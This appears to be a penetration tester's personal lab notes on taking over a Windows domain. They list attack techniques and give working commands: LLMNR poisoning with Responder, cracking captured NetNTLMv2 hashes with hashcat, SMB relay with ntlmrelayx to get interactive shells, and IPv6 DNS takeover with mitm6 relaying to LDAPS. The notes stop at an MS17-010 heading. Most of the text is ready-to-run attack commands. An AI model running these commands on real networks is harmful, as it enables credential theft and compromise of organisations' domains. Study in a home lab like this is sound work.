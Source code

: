         ## https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
        ## https://github.com/danielmiessler/SecLists/tree/master/Passwords
        ## https://github.com/SecureAuthCorp/impacket
        ## https://github.com/dirkjanm/mitm6

1 Netbios && LLMNR Name poisoning 
2 Relay attacks
3 MS17-010
4 kerberoasting
5 mitm6

I LLMNR (link local multicasting name resolution:: basically DNS) Poisoning
        needs lot of traffic - before nmap/nessus scans
    responder: python /usr/share/responder/Responder.py -L eth0 -rdwv
        try to access attacker IP address. see ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)
        hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt
            ## -m 5600 module for NetNTLMv2

II SMB Relay attacks:
        Requirements:: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
        setup ntlmrelay see ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png) 
   Finding which have smb enabled:
        nessus or nmap:: nmap --script=smb2-security-mode.nse -p445 192.168.86.0/24
            Nmap scan report for oxytocin-dc.lan (192.168.86.205)  (**DC**)
            PORT    STATE SERVICE
            445/tcp open  microsoft-ds
            Host script results:
            | smb2-security-mode:
            |   2.02:
            |_    Message signing enabled and required
   python3 ntlmrelayx.py -tf targets.txt -smb2support (-i) ## "python3 -m pip install ." "-i interactive shell"
        ::TODO::
        :: Working but keeps failing:: see ![revmalz](Screenshots/revshell_smb_malz.png) && ![break](Screenshots/malz_smb_breaking.png)
        ::For shells W/ creds: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
        ::wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy

IPv6 Attacks: DNS relay
    ##requirements, must add certificate in DC
        manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs
       + sudo python3 mitm6.py -d carbon.local
       + sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme
       + see ![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)
III MS17-010